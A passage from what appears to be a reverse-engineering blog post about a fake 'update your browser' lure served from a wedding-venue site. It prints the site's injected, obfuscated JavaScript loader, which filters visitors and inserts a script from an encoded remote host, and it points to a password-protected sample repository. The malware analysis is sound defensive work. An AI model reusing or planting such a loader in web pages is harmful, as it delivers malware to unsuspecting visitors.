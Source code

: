 ```yaml
---
layout: post
title: UltimateUpdate
description: What do wedding venues and malware have in common? I got to spend my weekend investigating them. A short post about interesting malware, and lessons learned.
image: https://axelp.io/images/UltimateUpdate/UltimateUpdate.png
excerpt_separator: <!--more-->
categories:
- Reverse Engineering
author:
- Axel Persinger
---
```



I was on a site browsing for wedding venues in Virginia (👀), and after scrolling down a page listing venues in Vienna, my entire screen changed to one of the typical "Your {Internet Browser} is out of date. Click here to update!". Curiosity got the best of me, I clicked the link, and this created a mini-investigation of some interesting malware!



![UltimateUpdate]({{ site.baseurl }}/images/UltimateUpdate/UltimateUpdate.png)
> *Not the actual ad I was served*

I thought it was pretty odd that I was served this ad in the first place, since I have uBlock Origin, which is pretty good at preventing these sorts of ads. Because I have no respect for my computer, I decided to YOLO it and click the "Download Update!" button. It downloaded a ZIP file named `Firefοx.106.63418.18456.9503fcf0.zip` from a JavaScript Blob (URL: `blob:null/06285e4d-82c0-4901-b6c3-f7d713a410a3`). This means I won't be able to re-download it, and unfortunately I navigated away from the page so I don't have the original.

I repackaged the zip file into a 7Zip in this [repo](https://github.com/CuckooEXE/UltimateUpdate) with the password `infected`.

## Hunt for the Original
First thing I want to do for this "investigation" is to see what the original payload is. That way I can see the logic in targetting, or if there are any other payloads. I went back through my browsing history to see if I could eventually find it, and on the page `hxxps[://]www[.]weddingrule[.]com/wedding-venues/virginia/north-va/` I see that it loads a Blob:

```javascript
;(function(){var dq=document.referrer;var ad=window.location.href;var xw=navigator.userAgent;var ej=new RegExp(vz('p:p/z/j(a[c^y/t]c+x)y/x'));if(!dq||ad.match(ej)[1]==dq.match(ej)[1]||xw.indexOf(vz('xWvitnadrobwbsr'))==-1||window.localStorage[vz('k_m_h_suetemmal')]){return;}var kf=vz('usvcxrqizpktc');var ox=document.createElement(kf);ox.async=true;ox.src=vz('shntitiphss:r/j/jtjraajirnyibnngg.acq1nygpvsjiklhadnbtjie.conrugt/xroeipmodrstt?rrv=cdnjs0k1mMlDjYf1pNkDkgz3sMpTzInwfZpTkUj2aZxmyQx1kZhTgZllvNeCuZajwatWgQp9bMajkYf0u');var fq=document.getElementsByTagName(kf)[0];fq.parentNode.insertBefore(ox,fq);function vz(wm){var yo='';for(var ud=0;ud<wm.length;ud++){if(ud%2){yo+=wm[ud];}}return yo;}})();
```

Which, running it through a [deobfuscator](https://deobfuscate.io/), turns into:
